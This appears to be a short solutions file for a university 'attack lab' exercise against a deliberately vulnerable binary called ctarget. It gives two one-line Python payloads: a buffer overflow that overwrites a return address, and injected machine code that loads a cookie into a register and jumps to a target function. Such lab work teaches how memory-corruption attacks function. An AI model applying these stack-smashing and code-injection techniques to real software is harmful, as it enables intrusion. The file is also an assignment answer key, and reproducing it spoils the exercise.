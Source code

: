 # Solutions

## phase 1

python3 -c 'import sys; sys.stdout.buffer.write(b"a"*40 + b"\xc0\x17\x40")' | ./ctarget -q

## phase 2

info: move cookie to rdi, push address of touch2 onto stack (this updates the stack pointer also), call retq (which pops return address from stack which points.

python3 -c 'import sys; sys.stdout.buffer.write( b"\xbf\xfa\x97\xb9\x59" + b"\x68\xec\x17\x40\x00" + b"\xc3" + b"\x00"*29 + b"\x78\xdc\x61\x55" + b"\x00"*4)' | ./ctarget -q
